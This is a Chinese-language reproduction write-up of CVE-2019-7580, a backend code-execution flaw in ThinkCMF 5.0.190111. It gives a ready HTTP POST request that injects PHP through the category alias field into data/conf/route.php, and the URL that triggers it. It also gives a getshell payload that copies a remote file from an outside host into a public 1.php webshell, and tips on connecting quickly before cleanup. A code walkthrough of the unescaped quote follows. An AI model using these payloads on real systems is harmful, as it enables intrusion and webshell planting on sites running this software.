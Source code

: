 ```yaml
---
title: "（CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞"
id: zhfly3141
---
```


# （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 5.0.190111

## 三、复现过程

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

```
POST /portal/admin_category/addpost.html HTTP/1.1
Host: www.0-sec.org
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close `parent_id=0&name=111&alias=1’%3D%3Earray(%22%22)%2Cphpinfo()%2C’2` 
```

2、然后访问：

```
/portal/admin_category/index.html 
```

触发

```
include data/conf/route.php 
```

操作，执行payload。下图以执行sleep(5)作为演示。

![image](../img/9d23f40458735047caf6dbd1b4d60fad.png)

![image](../img/d32452286911203706ac9402a8583412.png)

#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

```
1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2 
```

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\data\conf\route.php 文件
网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\think\App::run()执行应用。

![image](../img/8cb566df58623ded632a4c5b6d20a2ed.png)

在App.php的run()函数139行，执行sef::exec();

![image](../img/34f7608658d3efcf51537295d1e350bd.png)

通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

![image](../img/568e9a69c9dbe03f0b2d40d0ee54e92c.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从$this->request->param()函数中得到请求中的参数传递给$data。

![image](../img/bd05463162d61a10e179497edd3fb4e9.png)

然后通过$this->validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的"添加分类"操作。

![image](../img/4b11b22f9b09d502ae714354d6820ccf.png)

在addCategory函数中，184行这一句：

```
$findRoute = $this->where('full_url', $fullUrl)->find(); 
```

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，

![image](../img/669bae714c5ce1345e1875d06350da9f.png)

其中$fullUrl和$url的值如截图所示。
继续跟，

![image](../img/d01f2b65887128410cd2dc82288f3074.png)

在34行从数据库中查询查询相关数据，

```
$routes      = $this->where("status", 1)->order("list_order asc")->select(); 
```

在`addCategory`函数的157行调用

```
$routeModel->getRoutes(true); 
```

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：

![image](../img/4611b404cec59797be79b8310c450e1c.png)

#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测

![image](../img/13301cb0d2d2e987aa511d2815ef6f8e.png)

这里先

```
include app/route.php 
```

![image](../img/ef719a0d2662bc50d4e5b115ca2e7b1c.png)

然后，

```
include data/conf/route.php 
```

![image](../img/ce2c459a4156e479dc15cf4669feaef4.png)

最终执行我们的payload：`phpinfo()`。

![image](../img/60b2011b3371961779133d2cd200de6d.png)

## 参考链接

> https://xz.aliyun.com/t/3997#toc-6